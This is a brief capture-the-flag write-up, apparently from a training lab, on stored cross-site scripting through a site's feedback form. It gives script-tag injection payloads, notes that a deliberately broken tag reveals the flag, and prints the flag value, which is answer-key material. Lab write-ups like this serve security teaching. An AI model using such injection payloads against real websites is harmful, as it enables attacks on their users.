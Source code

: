 # Cross-site Scripting (XSS)
	
The feedback page allow us to post coments on the site with a form.
First thing to do in that case is check if the site is protected against XSS injection.
The most easier way is to try to pop an _alert_ with an html tag _\<script\>_

We write this comment in the feedback page with any name:
```html
<script>alert</script>
```

_The trick in here is that this exploit contains an error in source code. Only a broken command drop the flag like_:
```html
<script>a</script>
<script>al</script>
<script>ale</script>
<script>aler</script>
<script>a
```
_wtf part_:
a
l
e
r
t
p
<
s
c
i
>

THE FLAG IS : 0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E

## External Resources

https://owasp.org/www-community/attacks/xss/
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting


